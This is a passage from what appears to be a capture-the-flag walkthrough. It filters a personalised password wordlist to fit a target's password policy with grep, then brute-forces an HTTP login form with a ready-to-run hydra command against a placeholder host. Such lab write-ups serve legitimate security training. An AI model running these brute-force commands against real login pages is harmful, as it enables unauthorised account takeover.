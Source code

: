 
### Step 3: Password Complexity Filtering
```bash
# Filter for policy: 6+ chars, uppercase, lowercase, numbers, 2+ special chars
grep -E '^.{6,}$' jane.txt | \
grep -E '[A-Z]' | \
grep -E '[a-z]' | \
grep -E '[0-9]' | \
grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt

# Breakdown:
# '^.{6,}$'                - 6+ characters
# '[A-Z]'                  - At least one uppercase
# '[a-z]'                  - At least one lowercase  
# '[0-9]'                  - At least one digit
# '([!@#$%^&*].*){2,}'     - At least 2 special characters
```

### Step 4: Targeted Brute Force Attack
```bash
# HTTP POST form brute force with custom wordlists
hydra -L jane_smith_usernames.txt -P jane-filtered.txt \
      TARGET_IP -s PORT -f \
      http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

# Expected result:
# [PORT][http-post-form] host: TARGET_IP   login: jane   password: 3n4J!!
```

### Step 5: Success and Flag Retrieval
```bash
# Login with discovered credentials
# Username: jane
# Password: 3n4J!!
# Navigate to target and retrieve flag
```

---

## Advanced Filtering Techniques

### Password Policy Compliance
```bash
# Example policies and corresponding grep filters:

# Policy: 8-16 chars, 1 upper, 1 lower, 1 digit, 1 special
grep -E '^.{8,16}$' wordlist.txt | \
grep -E '[A-Z]' | \
grep -E '[a-z]' | \
grep -E '[0-9]' | \
grep -E '[!@#$%^&*()_+=-]' > policy_compliant.txt

# Policy: No dictionary words (basic check)
grep -vE '^(password|admin|user|test|login)' wordlist.txt > no_common.txt

# Policy: Must contain company name (case insensitive)
grep -iE 'companyname' wordlist.txt > company_passwords.txt

# Policy: Must start with capital letter
grep -E '^[A-Z]' wordlist.txt > capital_start.txt
```
